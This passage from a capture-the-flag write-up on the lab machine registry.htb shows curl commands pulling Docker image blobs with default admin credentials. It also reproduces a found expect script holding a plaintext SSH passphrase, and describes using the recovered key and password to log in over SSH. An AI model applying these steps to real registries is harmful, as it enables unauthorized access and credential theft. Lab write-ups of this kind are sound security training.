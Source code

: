 This confirms that we can download one of the blobs and perhaps find some files in it.&#x20;

```bash
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -L -o blob.tar
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   335  100   335    0     0   5348      0 --:--:-- --:--:-- --:--:--  5403
```

When viewing the file contents, we will find a file at `/etc/profile.d/01-ssh.sh`.

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

I downloaded the other files to see if there were any other interesting things. Eventually, I did find a SSH private key

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

```bash
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -L -o blob3.tar
# contents witin /root/.ssh/config:                   
Host registry
  User bolt
  Port 22
  Hostname registry.htb
# using password GkOcz221Ftb3ugog from earlier
```

With these, we can SSH in as `bolt`.
